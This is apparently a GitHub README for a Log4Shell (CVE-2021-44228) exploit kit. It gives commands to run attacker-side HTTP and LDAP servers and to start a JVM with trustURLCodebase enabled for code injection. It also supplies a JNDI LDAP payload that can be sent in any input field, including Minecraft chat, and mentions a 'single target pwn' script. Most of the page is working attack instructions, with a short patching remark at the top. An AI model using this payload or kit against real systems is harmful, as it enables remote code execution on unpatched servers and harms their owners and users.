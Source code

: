 # log4j2-prosecutor

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had (JNDILookup)[CVE-2021-44228](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>
## Running
0. Install requirements
```
cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js &
cd ldap-server && node index.js
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
./java-single-compile <Main.java>
# Linux 
javac <Main.java>
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send payload to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)
```
${jndi:ldap://127.0.0.1:3001/}
```
5. cleanup
```
NODEP=`pgrep node`
for id in $NODEP; do
    kill $id
done
```

## Scripts
```
# Single target pwn
# Edit exploit-configs.txt with url and params
cd scripts/single-pwn && python3 __main__.py
```

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java
- https://www.blumira.com/analysis-log4shell-local-trigger/ (todo)

## License [GPL3]
See License in LICENSE
